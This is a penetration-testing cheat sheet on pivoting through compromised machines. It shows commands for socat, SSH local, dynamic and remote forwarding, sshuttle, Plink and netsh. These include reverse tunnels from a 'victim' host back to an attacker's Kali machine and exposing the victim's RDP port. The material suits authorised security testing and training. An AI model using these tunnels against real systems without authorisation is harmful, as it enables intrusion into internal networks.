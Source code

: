 # Port Forwarding & Tunneling Cheat Sheet

## **LINUX**

### **Socat Simple Port Forwarding**
Forwards traffic from a local port to a target IP and port.
```bash
socat -ddd TCP-LISTEN:LOCAL_PORT,fork TCP:TARGET_IP:TARGET_PORT
```

### **SSH Local Port Forwarding**
Opens a port on the client, routes traffic through the SSH server, and sends it to the target.
```bash
ssh -L 8080:10.4.50.215:80 user@192.168.50.64
```

### **SSH Dynamic Port Forwarding**
Exploited a machine in the internal network there is another machine with ssh server there are more machines behind it. SSH from victim to SSH server.
Port will open on victim.
This gave access to a deeper sub-network.
This can open to all the hosts and ports that the server has access to.
Creates a SOCKS proxy that allows access to multiple hosts and ports the SSH server has access to.
Modify `proxychains4.conf` to use it with ProxyChains.
```bash
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215
```

### **SSH Remote Port Forwarding**
Forwards a port from the victim machine to the attacker's machine (SSH server), allowing access to an internal service.
```bash
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
```

### **SSH Remote Dynamic Port Forwarding**
Works like Local Dynamic Port Forwarding but opens the port on the SSH client (victim), allowing access to its subnet.
```bash
ssh -N -R 9998 kali@192.168.118.4
```

### **sshuttle (VPN-like Access to a Subnet)**
This is going to give VPN like access to a subnets
No need for proxychains.
Needs root on client and needs python3 on server.
In the example we say before first setup socat for getting direct possible ssh to database_admin on PostgreSQL server. Then, use shuttle to get the sub net behind PostgreSQL server.
```bash
socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24
```

---

## **WINDOWS**

### **ssh.exe (Windows SSH Client)**

### **Plink (PuTTY Link)**
Command-line SSH client for Windows when OpenSSH is not installed. Download the binary on the victim machine.
```bash
C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
```

### **Netsh Port Forwarding (Requires Admin)**
Not ideal for CTFs or pentesting due to firewall restrictions.
Opens a port on the victim and sends it to the specified target.
```powershell
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=4444 connectaddress=TARGET_IP connectport=4444
```
**Note:** You'll need to allow the port in the firewall:
```powershell
netsh advfirewall firewall add rule name="Open Port 4444" dir=in action=allow protocol=TCP localport=4444
```

---

## **🔹 Quick Reference Table**

| Option | Port Opens On | Purpose |
|--------|-------------|---------|
| `-L` | **Local (Client)** | Forward a port on your machine to a remote service. |
| `-R` | **Remote (SSH Server)** | Forward a port on the SSH server to your local machine. |
| `-D` | **Local (Client)** | Create a SOCKS proxy for dynamic tunneling. |

---

This cheat sheet is for penetration testers, ethical hackers, and security researchers. 🚀

